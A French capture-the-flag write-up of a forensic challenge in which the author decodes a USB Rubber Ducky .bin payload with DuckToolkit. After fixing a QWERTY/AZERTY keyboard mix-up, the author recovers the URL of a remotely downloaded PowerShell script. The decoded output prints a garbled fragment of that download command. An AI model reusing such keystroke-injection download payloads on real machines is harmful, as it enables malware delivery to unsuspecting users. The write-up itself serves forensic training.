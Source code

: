 ### Write-up du challenge : Le vilain petit canard 1/2 🦆

**Catégorie :** Forensic  
**Points :** 50  

---

## 📜 Enoncé
Un médecin et intégrateur de solution du CHU de Rennes enregistre les données HL7 du moteur d'intégration Mirth dans le dossier "debugging" de son ordinateur à des fins de debug. Malheureusement, son poste semble avoir été infecté par un malware. 😱

Notre administrateur système Onosh LaBrioche a récupéré un script dans le dossier `C:\Temp\` de son poste de travail. 😎

Le flag est l'URL complète de téléchargement du script.

**Ce challenge ne nécessite pas de reverse.** 🎯  

**Auteur :** Onosh  
**Format du flag :** `CTF-DLS{https://url.tld/script.ext}`

---

## 🔍 Solution

### 1. Découverte du fichier .bin 🧐
Le fichier `louche.bin` est suspect. On peut supposer qu'il contient des informations encodées ou des commandes dissimulées. Comme le challenge est lié à **USB Rubber Ducky**, il est probable qu'il contienne des instructions de frappe automatique. 💡

### 2. Recherche d'outils 🛠️
Je cherche des outils pour analyser ce fichier et je tombe sur un dépôt GitHub intéressant : **DuckToolkit**. Ce dernier contient des scripts pour décoder les payloads **USB Rubber Ducky**. 🚀

J'exécute la commande suivante pour déchiffrer le fichier `.bin` :

```bash
┌──(kali㉿kali)-[~/dls/DuckToolkit/USB-Rubber-Ducky/Decode]
└─$ perl ducky-decode.pl -f ../../../louche.bin
```

### 3. Décryptage du contenu 🔐
Après exécution, voici la sortie obtenue :

```
4 h t t p s . > > r q n s o ; < o n o s h < o v h > 4 + ] f i l e ,
SPACE
] d o z n < D o z n l o q d F i l e 5 ] u r l m 3 C . 5204 T e ; p 5204 t q s k < p s ! 3 - ,
```

Cette chaîne semble être une URL obfusquée, probablement déformée par une utilisation d'un clavier **QWERTY** au lieu d'AZERTY.

### 4. Correction du mapping clavier 🌐
Je recolle les caractères et corrige la correspondance QWERTY → AZERTY.

L'URL reconstruite devient :

```plaintext
https://ransom.onosh.ovh/task.ps1
```

### 5. Assemblage du flag 🧑‍🎓
En mettant l'URL au format demandé, on obtient :

```plaintext
CTF-DLS{https://ransom.onosh.ovh/task.ps1}
```

### 6. Victoire ! 🏆
Et voilà, flag trouvé et challenge réussi ! 🎉

---

## ✨ Conclusion
Grâce à l'outil **DuckToolkit** et à une analyse rigoureuse du fichier `.bin`, j'ai pu extraire l'URL cachée et découvrir le script malveillant. Ce challenge était un bon exercice de **forensic**, combinant décryptage, observation des chaînes et correction des erreurs de clavier. 👏

**Mots-clés :** Forensic, Rubber Ducky, QWERTY, Reverse Keyboard Mapping, DuckToolkit

**Auteur du write-up :** Sigma Chad 🏅

